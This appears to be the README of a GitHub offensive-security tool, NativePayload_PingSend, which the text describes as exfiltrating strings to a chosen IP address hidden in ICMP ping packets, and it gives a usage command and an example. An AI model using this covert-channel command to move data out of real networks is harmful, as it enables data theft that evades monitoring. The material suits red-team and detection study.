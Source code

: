 # NativePayload_PingSend
## NativePayload_PingSend sned data/string (exfiltration) to destination ip via icmp ping packets

## as you can see with this code you can send data/string via ping request to linux side via ping linux ipaddress, and in liunux side with tcpdump you can dump those string/data in ping packets


           md5 info 74718db7bc753bd2161bf46b0d06a31e => NativePayload_PingSend.exe


### Source code tested by .Netframework 4.7.2 

### Target Platform x64 is ok.

    usage (Run As Admin): NativePayload_PingSend.exe ipaddress "string"    
      example NativePayload_PingSend.exe 192.168.56.101 "your string which want to send to target ipaddress via icmp ping packets"


###  NativePayload_PingSend  
   ![](https://github.com/DamonMohammadbagher/NativePayload_PingSend/blob/main/icmp.png)

###  NativePayload_PingSend  
   ![](https://github.com/DamonMohammadbagher/NativePayload_PingSend/blob/main/icmp2.png)

###  NativePayload_PingSend  
   ![](https://github.com/DamonMohammadbagher/NativePayload_PingSend/blob/main/netmon3.png)

<p><a href="https://hits.seeyoufarm.com"><img src="https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https://github.com/DamonMohammadbagher/NativePayload_PingSend"/></a></p>

